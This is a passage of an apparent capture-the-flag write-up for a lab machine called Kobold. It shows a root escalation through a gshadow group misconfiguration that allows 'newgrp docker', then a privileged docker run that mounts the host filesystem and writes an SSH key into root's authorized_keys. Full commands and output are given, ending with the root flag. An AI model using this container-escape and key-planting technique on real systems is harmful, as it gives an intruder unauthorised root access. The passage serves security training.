

Next we configured the `Network & Security` settings to run the container in `Privileged mode` with `root` user access.



With the privileged container running and the host filesystem mounted we could access the host's files and execute commands as root through the container.





## Privilege Escalation to root (unintended)

### Privileged Container Escape through Shadow Group Membership Misconfiguration

While enumerating the system we discovered an interesting group membership misconfiguration. We checked `alice`'s group memberships which revealed that alice was a member of both the `operator` and `docker` groups. Since `ben` was also a member of the `operator` group we already had access to `/privatebin-data`. However `alice` being in the `docker` group opened another privilege escalation path. We examined the directory again.

```shell
ben@kobold:~$ id alice
uid=1002(alice) gid=1002(alice) groups=1002(alice),37(operator),111(docker)
```

```shell
ben@kobold:/privatebin-data$ ls -la
total 20
drwxrwx---  5 root operator 4096 Mar 15 21:23 .
drwxr-xr-x 22 root root     4096 Mar 16 20:57 ..
drwxrwx---  2 root operator 4096 Mar 15 21:23 certs
drwxr-x---  2 root       82 4096 Mar 15 21:23 cfg
drwxrwxrwx  5 root operator 4096 Mar 15 21:23 data
```

We attempted to use `newgrp` to switch our effective group to group ID `82` but it failed because the group doesn't exist as a named group. It eventually was deleted in the process of creating the box.

```shell
ben@kobold:/privatebin-data$ newgrp 82
newgrp: group '82' does not exist
```

Instead we used `newgrp` to switch to the `operator` group and tested if the command itself worked because of our membership of the `operators` group. It got executed without an error at least but obviously didn't changed anything when we checked our group memberships afterwards.

```shell
ben@kobold:/privatebin-data$ newgrp operator
```

Now we tried the same on the docker group and it added us temporarily to the group without prompting for a password.

```shell
ben@kobold:/privatebin-data$ newgrp docker
```

This worked because although `ben` isn't directly a member of the `docker` group the system allowed the group switch due to a misconfiguration or an oversight.

```shell
ben@kobold:/privatebin-data$ id
uid=1001(ben) gid=111(docker) groups=111(docker),37(operator),1001(ben)
```

The prerequisites for this are quite interesting.

- A configuration mismatch between `/etc/group` and `/etc/gshadow` needs to be present
- User needs to be listed in `/etc/gshadow` but not in `/etc/group`
- Target group has no password or the attacker knows it

This could be verified after gaining root access on the box by checking the `/etc/gshadow` file and looking for the following.

```shell
docker:!::alice,ben
# or
docker:::alice,ben
```

Now we could run `docker` commands. We confirmed the `PrivateBin` container was running. With access to the `docker` group we could create a privileged container that mounts the host filesystem and write our `SSH` public key to `/root/.ssh/authorized_keys`.

```shell
ben@kobold:/privatebin-data$ docker ps
CONTAINER ID   IMAGE                               COMMAND                  CREATED       STATUS             PORTS                      NAMES
4c49dd7bb727   privatebin/nginx-fpm-alpine:2.0.2   "/etc/init.d/rc.local"   4 weeks ago   Up About an hour   127.0.0.1:8080->8080/tcp   bin
```

The container executed successfully and our `SSH` key was written to the host's `/root/.ssh/authorized_keys` file.

```shell
ben@kobold:/privatebin-data$ docker run -v /:/hostfs --rm -u 0:0 --entrypoint sh privatebin/nginx-fpm-alpine:2.0.2 -c "mkdir -p /hostfs/root/.ssh && echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB8r4vPbn2m6ycgd7n22IPKG9aN7kviP37uw03woICNN' >> /hostfs/root/.ssh/authorized_keys && chmod 600 /hostfs/root/.ssh/authorized_keys"
```

We authenticated via `SSH` as root and grabbed the `root.txt`.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh root@kobold.htb
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-106-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Mar 21 08:16:20 PM UTC 2026

  System load:  0.0               Processes:             257
  Usage of /:   58.9% of 9.96GB   Users logged in:       1
  Memory usage: 20%               IPv4 address for eth0: 10.129.13.145
  Swap usage:   0%

This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento

Use of this system is acceptance of the OS vendor EULA and License Agreements.
root@kobold:~#
```

## root.txt

```shell
root@kobold:~# cat root.txt
f271c34702782de972c952fd1081e677
```
